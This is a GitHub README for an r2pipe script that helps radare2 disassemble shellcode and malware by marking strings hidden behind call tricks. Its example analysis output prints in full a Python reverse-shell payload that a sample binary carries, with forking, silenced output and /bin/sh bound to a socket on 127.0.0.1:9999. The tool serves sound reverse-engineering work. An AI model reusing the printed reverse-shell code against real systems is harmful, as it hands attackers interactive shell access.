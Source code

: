 # call_trick_r2pipe

Are you using radare for reversing or debugging a shellcode/malware with a lot of call tricks for strings like these:

```
call @f
db "string1",0
@f:
more code
call @g:
db "string2",0
@g:
more code
```

Try this r2pipe (https://www.radare.org/n/r2pipe.html) script to fix disasm:
 ```
# run inside r2 session: #!pipe python3 poc.py

import r2pipe

r2 = r2pipe.open()
r2.cmd('aaaa')
print(r2.cmd("izz"))
for e in r2.cmdj("izzj"):
       if e['type'] == "ascii" and e['section'] == ".text":
               csa = f"Csa {e['size']} @ { e['vaddr']}"
               print(csa)
               r2.cmd(csa)
```

This script search all C-STRING-STYLE in .text section and mark each one like string 

Just use this script with "#!pipe python3 poc.py" command inside your r2 session:
```
dreg@fr33project:~# r2 64sudorevshell
[0x00401000]> #!pipe python3 poc.py

[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[Strings]
nth paddr      vaddr      len size section   type  string
---------------------------------------------------------
0   0x0000105a 0x0040105a 524 525  .text     ascii exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((str(0x7f000001),9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")
1   0x00001274 0x00401274 11  12   .text     ascii /bin/python
2   0x000012b7 0x004012b7 9   10   .text     ascii /bin/sudo
3   0x00001479 0x00000001 18  19   .strtab   ascii 64sudorevshell.asm
4   0x0000148c 0x00000014 6   7    .strtab   ascii parent
5   0x00001493 0x0000001b 5   6    .strtab   ascii child
6   0x00001499 0x00000021 4   5    .strtab   ascii arg3
7   0x000014a2 0x0000002a 4   5    .strtab   ascii arg2
8   0x000014ab 0x00000033 4   5    .strtab   ascii arg1
9   0x000014b0 0x00000038 4   5    .strtab   ascii drgs
10  0x000014b9 0x00000041 6   7    .strtab   ascii end_sc
11  0x000014c0 0x00000048 11  12   .strtab   ascii __bss_start
12  0x000014cc 0x00000054 6   7    .strtab   ascii _edata
13  0x000014d3 0x0000005b 4   5    .strtab   ascii _end
14  0x000014d9 0x00000001 7   8    .shstrtab ascii .symtab
15  0x000014e1 0x00000009 7   8    .shstrtab ascii .strtab
16  0x000014e9 0x00000011 9   10   .shstrtab ascii .shstrtab
17  0x000014f3 0x0000001b 18  19   .shstrtab ascii .note.gnu.property
18  0x00001506 0x0000002e 5   6    .shstrtab ascii .text


Csa 525 @4198490
Csa 12 @4199028
Csa 10 @4199095
[0x00401000]>
```

# Before

![alt text](before.png)

# After

![alt text](after.png)

Greetz to Maijin for hints in #radare channel
           


